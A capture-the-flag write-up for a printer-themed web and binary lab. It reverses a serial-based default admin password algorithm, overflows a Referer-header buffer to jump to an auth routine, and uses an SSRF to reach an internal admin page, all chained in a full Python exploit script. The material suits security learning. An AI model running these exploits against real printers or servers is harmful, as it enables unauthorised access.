


The challenge description says:

> Mother Printers supplies small businesses with top-quality printers, but their security might not be. What begins as a simple company website soon unravels into something far more revealing.
> 
> Explore and enumerate your way through the application, uncovering clues and connections as you go. This hub takes you on a journey that tests multiple skill sets and rewards those who think creatively and dig deeper than the surface.
> 
> Thanks to \_CryptoCat for creating this challenge for HackingHub, make sure to view their YouTube channel dedicated to all things security and CTF! 

## Initial recon
After starting the hub, we can access the page and look around. We can spot an admin page, but it shows us that `Endpoint is only accessible by local admins`. 




From the firmware page we can download the `printer` binary and we can see there's a `printer_release` folder. Opening this address reveals an internal login panel.

```
Index of /printer_release
config.json                                                  2025-11-16 20:46 34           open
flag1.txt                                                    2025-11-16 20:46 39           open
printer                                                      2025-11-12 15:27 27176        open
printer_build                                                2025-11-14 19:13 29016        open
```

Apart from the `printer` binary that we've already downloaded, we can get another binary: `printer_build` and `config.json`. And of course `flag1.txt` contains the first flag.

The config.json file contains an internal address `{"printer":"143.110.160.46:8000"}`. Visiting this new address shows us some internal login panel.



Next, we load the binaries into a decompiler.

## `printer` binary analysis

Looking at the binary's main function, we can see that it's likely responsible for handling the internal HTTP server. Apart from loading three flags from environment variables, it sets up a server listening on port `8000` and starts accepting connections. When a client connects, request handling is performed by the function at `0x4047EA`.

```c
  local_30 = getenv("FLAG_2");
  local_38 = getenv("FLAG_3");
  local_40 = getenv("FLAG_4");
```

Request handling starts by receiving data via `recv` and then extracting the `verb`, `path` and `http_version` variables. Next, the code processes the session cookie and then handles specific request paths.

```c
void parse(int socket)
{
  int iVar1;
  char cookie_copy [0x80];
  undefined1 http_version [0x20];
  char path [0x200];
  char verb [0x18];
  undefined8 local_40;
  char *full_request;
  char *body_part;
  char *buf;
  char *cookie_header;
  ulong i;
  auth_struct *auth;
  
  full_request = 0x0;
  local_40 = 0x0;
  iVar1 = recv_request(socket,&full_request,&local_40);
  if ((iVar1 == 0x0) && (full_request != 0x0)) {
    iVar1 = __isoc99_sscanf(full_request,"%15s %511s %31s",verb,path,http_version);
    if (iVar1 != 0x3) {
      bad_request(socket);
      free(full_request);
      close(socket);
      return;
    }
    cookie_header = FindSubstring(full_request,"Cookie");
    auth = 0x0;
    if ((cookie_header != 0x0) && (buf = strstr(cookie_header,"AuthCookie="), buf != 0x0)) {
      buf = buf + 0xb;
      for (i = 0x0; ((buf[i] != '\0' && (buf[i] != ';')) && (i < 0x7f)); i = i + 0x1) {
        cookie_copy[i] = buf[i];
      }
      cookie_copy[i] = '\0';
      auth = validate(cookie_copy);
    }
    if (auth == 0x0) {
      auth = SetCookie();
    }
    iVar1 = strcmp(verb,"GET");
    if (iVar1 == 0x0) {
      iVar1 = strcmp(path,"/");
      if ((iVar1 == 0x0) || (iVar1 = strcmp(path,"/login"), iVar1 == 0x0)) {
        login_form(socket);
      }
      else {
        iVar1 = strcmp(path,"/etc/mnt_info.csv");
        if (iVar1 == 0x0) {
          etc_mnt_info(socket);
        }
        else {
          iVar1 = strcmp(path,"/stats");
          if (iVar1 == 0x0) {
            stats(socket,auth);
          }
          else {
            iVar1 = strcmp(path,"/jobs/manage");
            if (iVar1 == 0x0) {
              get_jobs_manage(socket);
            }
            else {
              not_found(socket);
            }
          }
        }
      }
    }
    else {
      iVar1 = strcmp(verb,"POST");
      if (iVar1 == 0x0) {
        body_part = strstr(full_request,"\r\n\r\n");
        if (body_part == 0x0) {
          bad_request(socket);
          free(full_request);
          close(socket);
          return;
        }
        body_part = body_part + 0x4;
        iVar1 = strcmp(path,"/login");
        if (iVar1 == 0x0) {
          handle_login(socket,body_part,auth);
        }
        else {
          iVar1 = strcmp(path,"/print");
          if ((iVar1 == 0x0) || (iVar1 = strcmp(path,"/scan"), iVar1 == 0x0)) {
            handle_print_scan(socket,full_request,body_part,auth);
          }
          else {
            iVar1 = strcmp(path,"/jobs/manage");
            if (iVar1 == 0x0) {
              post_jobs_manage(socket,full_request,body_part,auth);
            }
            else {
              not_found(socket);
            }
          }
        }
      }
      else {
        bad_request(socket);
      }
    }
    if (cookie_header != 0x0) {
      free(cookie_header);
    }
    free(full_request);
    close(socket);
    return;
  }
  close(socket);
  return;
}
```

The binary supports only `GET` and `POST` requests, with the following endpoints:

**GET**
* `/` & `/login`
* `/etc/mnt_info.csv`
* `/stats`
* `/jobs/manage`

**POST**
* `/login`
* `/print` & `/scan`
* `/jobs/manage`

Checking the flow of auth we can spot that apart from `/` & `GET /login` endpoints and `/etc/mnt_info.csv` also doesn't require authentication, so we can access it without being logged in.

Triggering this endpoint reveals several pieces of information, including the serial number and flag 2.

```
serial,model,node,location,contact,firmware,flag2
SN5183880084,MPI-MOM-1337,node-42,Factory A,support@motherprinters.lol,fw-4.2.0,flag{xxxxx}
```

The `POST /login` endpoint contains a simple validation logic that checks the provided username and password with the hardcoded `admin`/`7YHn6-Ee#h1dW&E?jjMw+>M#`. Trying those credentials on the running instance didn't work. We need to try harder to get the flag number 3.

```c
void handle_login(undefined4 param_1,undefined8 input,auth_struct *auth)

{
  int iVar1;
  char local_d8 [0x80];
  char local_58 [0x48];
  char *local_10;
  
  parse_param(input,"username",local_58,0x40);
  parse_param(input,"password",local_d8,0x80);
  iVar1 = strcmp(local_58,"admin");
  if ((iVar1 == 0x0) && (iVar1 = strcmp(local_d8,"7YHn6-Ee#h1dW&E?jjMw+>M#"), iVar1 == 0x0)) {
    auth->is_logged = 0x1;
    FUN_00402748(param_1,
                 "HTTP/1.1 302 Found\r\nSet-Cookie: AuthCookie=%s; HttpOnly\r\nX-Flag-3: %s\r\nLocation: /stats\r\nContent-Length: 0\r\n\r\n"
                 ,auth,flag3);
    return;
  }
  local_10 = "<html><body>Unauthorized</body></html>";
  unauth(param_1);
  return;
}
```

This is where the second binary comes into play.

## `printer_build` binary analysis

> [!NOTE]
> This binary was updated after the initial release of the challenge.

If that was not clear from the name, then opening this file in the disassembler and from a quick look at the `main` we can conclude that this is a build program of the main `printer` binary. 

The relevant lines are:

```c
fwrite("#ifndef BUILD_CFG_H\n#define BUILD_CFG_H\n",0x1,0x28,__s);
fprintf(__s,"#define SERIAL \"%s\"\n",serial);
fprintf(__s,"#define DEFAULT_ADMIN_PASSWORD \"%s\"\n",admin_password);
fwrite("#endif\n",0x1,0x7,__s);
```

These lines define constants used during the build process. The `DEFAULT_ADMIN_PASSWORD` is an interesting one as it will probably be the one we saw in the handling of the `/login` request. The password visible in the disassembly is likely not the one used on the running instance, so we need to determine how the real one is generated.

If we follow the `admin_password` variable, we can see that it's constructed inside function at `0x00103534` based on the `serial` that is coming from `0x00103299`. Looking into that function shows that the serial is either read from the `SERIAL` environment variable or randomly generated.

We saw the `SERIAL` value in `/etc/mnt_info.csv`, so we need to generate the admin password for that specific serial. So we need to reverse the algo that converts serial number into admin password. Lets dig into `0x00103534`.

## admin password generation

This algo starts by computing the sum of numbers in the serial number (call it `v`). Then it uses an array of numerical values located at `0x00104020` and transforms value `v` into another number modulo 256. This new value is used to get an eight character string from the list located from `0x00104420` (call it `pwd_string`).

Next, the serial is extended to 16 characters by appending four zeros. After that, the `pwd_string` is appended in reverse order, with each character decremented by 1 before being added.

We compute `SHA-256` over the resulting 24-character string and base64-encode it. From the resulting string we only take 24 characters. Before finalizing the admin password, the result is passed through a substitution function at `0x001033fa`.

Turning this logic into a python program we would get something like the following:

```python
def calculate_admin_password(serial):
    import string
    def calculate_sum(serial):
        return sum([ord(x) - 0x30 for x in serial if x in string.digits])
    
    def obfuscate(s):
        def obfuscate_char(c):
            chars = {'|':'$', 'O':':','Z':'&','b':'*','l':'#','o':'?','q':'-','v':'@','y':'>','z':'%'}
            return chars[c] if c in chars else c
        return ''.join([obfuscate_char(chr(x)) for x in s])
        
    serial_sum = calculate_sum(serial)    
    pass_used = passwords[idx[serial_sum] & 255]    
    pass_processed = ''.join([chr(x-1) for x in pass_used[::-1]])
    data_to_hash = f'{serial}0000{pass_processed}'
        
    import hashlib
    import base64
        
    hashed_data = hashlib.sha256(data_to_hash.encode('ascii')).digest()
    
    admin_password = obfuscate(base64.b64encode(hashed_data))    
    admin_password = admin_password[:0x18]
    return admin_password
```

`passwords` and `idx` are the tables containing data read from the binary. With that done, we can generate password for our serial and use the form to log in and collect flag number 3. Back to the first binary.

## Getting to flag 4 & 5
After logging in and collecting flag number 3 we can get back looking around in the first binary what we can do with that. And it turns out, not much. Being logged in allows us to call endpoints `/print` and `/scan` but that doesn't give us anything immediately. The next flag is in `GET /jobs/manage`, but accessing it requires a global variable to be set. 

```c
void get_jobs_manage(undefined4 socket)
{
  size_t sVar1;
  char local_108 [0x100];
  
  if (global_auth == 0x0) {
    unauth(socket);
  }
  else {
    snprintf(local_108,0x100,"{\"status\":\"ok\",\"flag\":\"%s\"}\n",flag4);
    sVar1 = strlen(local_108);
    FUN_00402748(socket,
                 "HTTP/1.1 200 OK\r\nContent-Type: application/json\r\nContent-Length: %zu\r\n\r\n%s "
                 ,sVar1,local_108);
  }
  return;
}
```

The only place where this `global_auth` is manipulated a small method at `0x402dba` but it's not being called from anywhere and does use `longjmp` to return to execution in a different place from where it's being called.

```c
void set_global_auth(void)
{
  global_auth = 0x1;
                    /* WARNING: Subroutine does not return */
  longjmp(&jmp_buf_tag,0x1);
}
```

We need to manage to trigger it somehow. Let's get back to `/print` and `/scan`.

This method is quite lengthy but let's go through it line by line.

It starts by extracting the 4 headers from the request: `X-CSRF-Token`, `Referer`, `Host` and `Origin`. If the first one is not present, we exit with a bad request response. Otherwise we pass those to a method at `0x004032c9` - we will get back to it later - but if we process the data correctly we return a static json `{"status":"queued","job_id":"job-1234"}\n"`. No flag, no nothing here that would allow us to call our enigmatic method. Let's dig into `0x004032c9`.

It first checks whether we are logged in and after that if the provided CSRF token is the one that the server holds. If so, the token is base64 decoded and split into 3 sections by `|` character.

Later, if the `origin` value is not provided and `referer` is, we copy the `referer` value up to `0x800` characters to a big enough buffer and extract the portion of that header between `://` and the next `/`. And here is what is a messy part. The length is calculated based on the input, but we copy that to a fixed length buffer of 64 characters. 

Here is our chance to override the stack and call our cryptic function. And binary helps us with that as there's no canary and No-PIE. We just need to find out how many bytes we need to override.

To calculate that I've used `cyclic_gen` from [pwnlib.util.cyclic](https://docs.pwntools.com/en/stable/util/cyclic.html) to generate unique sequence and based on what was popped from the stack determine it's 136 bytes. And as the next value we can push our mysterious function that sets the global auth.

```python
def execute_stack_overflow(s, url, csrf_token):
    addr = url + '/print'
    print(f'Executing stack overflow')
    import string
    v = (0x00402dba).to_bytes(8, 'little')[:3]        
    domain = b'A'*136+v
    referer = b'http://'+(domain)+b'/stats'
    headers = {'X-CSRF-TOKEN': csrf_token, b'Referer': referer}
    resp = s.post(addr, headers=headers)
```

After that we can execute `GET /jobs/manage` and collect fourth flag.

And with that we are left with flag number 5. And one endpoint left that can do something for us - `POST /jobs/manage`. It also requires us to be logged in and have global_auth set. Looking into the internals, it's not obvious where the fifth flag is. So where is the flag here?

The logic of this endpoint is that it gets some data in the POST and process it. The structure of the data resembles some XML that has a top element named `<Job>` and inside it two child elements. First called `<ID>` and the second one `<URL>`.

After extracting the URL the binary does a GET request to that address and forwards as a response to the original request what was returned by this extra one. So where is the flag here? Well, do you remember the admin page that was stating `Endpoint is only accessible by local admins`? 

This endpoint finally gives us a way to access it. To get the last flag, we need to prep the structure with `<URL>` pointing to that internal admin page and print the response.

```python
def post_jobs_manage(s, url):
    addr = url+'/jobs/manage'
    print(f'Requesting {addr}')
    id = 1337
    target_url = 'http://femgb8sy.ctfio.com/admin' # use the current host from hackinghub
    data = f'<Job><ID>{id}</ID><URL>{target_url}</URL></Job>'
    resp = s.post(addr, data = data)
    print(resp.content)
    return resp.content
```

And with that we get the last flag.

The full script that can get us the flags:

```python
import requests

passwords = []
idx = []
def read_constants():
    path = 'new/printer_build'
    print(f'Reading constants from {path}')
    data = open(path,'rb').read()
    _passwords = data[0x4420:0x4d20]
    
    for i in range(0,0x4d20-0x4402,9):
        passwords.append(_passwords[i:i+8])

    _idx = data[0x4020:0x4420]    
    for i in range(0, len(_idx), 4):
        v = int.from_bytes(_idx[i:i+4], 'little')
        idx.append(v)


def get_config_json(s, url):
    addr = url+'/printer_release/config.json'
    print(f'Requesting {addr}')
    resp = s.get(addr)
    content = resp.content
    import json
    data = json.loads(content)
    print(data)
    internal_addr = 'http://'+data["printer"]
    print(f'Received {internal_addr}')
    return internal_addr
    
def get_flag_1(s, url):
    addr = url+'/printer_release/flag1.txt'
    print(f'Requesting {addr}')
    resp = s.get(addr)
    content = resp.content        
    print(f'Flag1: {content}')    

def get_printer_serial(s, url):
    addr = url+'/etc/mnt_info.csv'
    print(f'Requesting {addr}')
    resp = s.get(addr)
    content = resp.content    
    data = content.split(b',')
    print(data)
    serial = data[6].split(b'\n')[1].decode('ascii')
    print(f'Received serial {serial}')
    return serial
    
def calculate_admin_password(serial):
    import string
    def calculate_sum(serial):
        return sum([ord(x) - 0x30 for x in serial if x in string.digits])
    
    def obfuscate(s):
        def obfuscate_char(c):
            chars = {'|':'$', 'O':':','Z':'&','b':'*','l':'#','o':'?','q':'-','v':'@', 'y':'>','z':'%'}
            return chars[c] if c in chars else c
            
        return ''.join([obfuscate_char(chr(x)) for x in s])
    
    admin_password = ''
    serial_sum = calculate_sum(serial)
    print(f'Sum for {serial} is 0x{serial_sum:x}')
    pass_used = passwords[idx[serial_sum] & 255]
    print(f'Default password used: {pass_used}')
    pass_processed = ''.join([chr(x-1) for x in pass_used[::-1]])
    data_to_hash = f'{serial}0000{pass_processed}'
    print(f'Data to hash: {data_to_hash}')
    
    import hashlib
    import base64
    
    m = hashlib.sha256()
    m.update(data_to_hash.encode('ascii'))
    hashed_data = m.digest()
    
    admin_password = obfuscate(base64.b64encode(hashed_data))
    print(f'Full admin password: {admin_password}')
    admin_password = admin_password[:0x18]
    
    print(f'Calculated password for {serial}: {admin_password}')
    return admin_password
    pass
    
def login(s, url, admin_password):
    addr = url + '/login'
    print(f'Logging in...')
    resp = s.post(addr, data={'username':'admin', 'password': admin_password}, allow_redirects=False)    
    print(resp.headers)
    AuthCookie = s.cookies['AuthCookie']    
    print(f'Cookie: {AuthCookie}')
    resp = s.get(url + '/stats')
    content = resp.content    
    import re
    csrf_token = ''    
    m = re.search(r"'csrf-token'\s+content='(.+)'", content.decode('utf-8'))    
    if m != None:
        csrf_token = m.group(1)
        print(f'CSRF-Token: {csrf_token}')
    return AuthCookie, csrf_token
    
def execute_stack_overflow(s, url, csrf_token):
    addr = url + '/print'
    print(f'Executing stack overflow')
    import string
    v = (0x00402dba).to_bytes(8, 'little')[:3]
    print(v)
    domain = b'A'*136+v
    referer = b'http://'+(domain)+b'/stats'
    headers = {'X-CSRF-TOKEN': csrf_token, b'Referer': referer}
    resp = s.post(addr, headers=headers)
    print(resp.status_code)
    return resp.status_code

def get_jobs_manage(s, url):
    addr = url+'/jobs/manage'
    print(f'Requesting {addr}')
    resp = s.get(addr)
    content = resp.content
    print(content)
    import json
    data = json.loads(content)
    print(data)        
    return data["flag"]
    
def post_jobs_manage(s, url, hackinghub_domain):
    addr = url+'/jobs/manage'
    print(f'Requesting {addr}')
    id = 1337
    url = f'{hackinghub_domain}/admin'
    print(url)
    data = f'<Job><ID>{id}</ID><URL>{url}</URL></Job>'
    resp = s.post(addr, data = data)
    print(resp.content)
    return resp.content

s = requests.Session()
print('Start...')
read_constants()
import sys
url = sys.argv[1] if len(sys.argv) > 1 else input('Enter target domain: ')
flag1 = get_flag_1(s, url)
internal_addr = get_config_json(s, url)
serial = get_printer_serial(s, internal_addr)
admin_password = calculate_admin_password(serial)
cookie,csrf_token = login(s, internal_addr, admin_password)
try:
    execute_stack_overflow(s, internal_addr, csrf_token)
except:
    print('stack overflow triggered')
    pass
get_jobs_manage(s, internal_addr)
post_jobs_manage(s, internal_addr, url)

```

## Conclusion

Challenges are based on the [Rapid 7 whitepaper](https://assets.contentstack.io/v3/assets/blte4f029e766e6b253/blt6495b3c6adf2867f/685aa980a26c5e2b1026969c/vulnerability-disclosure-whitepaper.pdf) describing Brother devices vulnerabilities found in 2024.